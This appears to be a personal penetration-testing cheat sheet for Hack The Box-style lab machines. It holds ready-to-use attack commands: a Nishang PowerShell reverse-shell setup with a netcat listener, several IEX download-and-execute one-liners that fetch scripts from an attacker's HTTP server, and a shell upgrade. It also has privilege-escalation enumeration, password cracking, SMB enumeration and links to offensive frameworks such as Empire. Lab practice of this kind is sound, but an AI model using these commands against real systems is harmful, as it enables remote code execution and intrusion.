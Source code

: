 #### Tools & Techniques


 Nishang
To get a sheel from an entry point where cmd is working or the entry point is a cmd

cp /opt/nishang/Shells/Invoke-PowershellTcp.ps1 nishang.ps1
gedit nishang.ps1
Invoke-PowershellTcp -Reverse -IpAdress *.*.*.* -Port *
python -m SimpleHTTPServer
nc -lvnp *

In cmd:
powershell "IEX(New-Object Net.WebClient).downloadString('http://*.*.*.*:*/nishang.ps1')"


 Linux
To get a better shell:
python -c 'import pty;pty.spawn("/bin/bash");'
 to list suid binary file:
find / -perm -u=s -type f 2>/dev/null -exec ls -l {} \;


 Windows
 to convert in base64 with UTF-16LE encoding
echo -n "Hello World" | iconv --to-code UTF-16LE | base64 -w 0

 Tools
 Shell and Crack
Unicorn.py :  https://github.com/trustedsec/unicorn  
Empire.py  :  https://github.com/EmpireProject/Empire
JAWS       :  https://github.com/411Hall/JAWS   (Windows Enumeration Tools)
zip2john   :  https://github.com/piyushcse29/john-the-ripper/blob/master/src/zip2john.c (To crack zipped password)

 Steganography tools
zsteg,steghide,binwalk.strings,file,foremost

 Other tools
readpst,mdb-shell,mdb-sql

 Techniques
To download all files from ftp server:
wget -m --no-passive ftp://username:password@x.x.x.x

To login in imap server using openssl:
openssl s_client -connect chaos.htb:993
link which can help:http://blog.viggy.in/?p=9
Linux enumerarion help:  https://www.rebootuser.com/?p=1623#.V5QOe7grKUl


To find S3 bucket of the program, I used nahamsec‘s lazys3.
Command: ruby lazys3.rb site_name
https://github.com/ehsahil/recon-my-way/tree/master/lazys3 

Openssl :
openssl req -x509 -new -nodes -key abc.key -sha256 -days 1024 -out abcd.pem
openssl req -new -newkey rsa:2048 -nodes -out abc.csr -keyout abcd.key
openssl pkcs12 -export -in asdf.pem -inkey ca.key -out server.p12 

SMB part:
smbclient -L //ip   {smb shares}
smbmap -H ip   

Windows Nishang Rbash like thingy:
powershell -version 2 -command "IEX(New-Object Net.WebClient).DownloadString('http://:8000/Invoke-PowerShellTcp.ps1')"
powershell -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.x.x:port/PowerUp.ps1');Invoke-AllChecks"
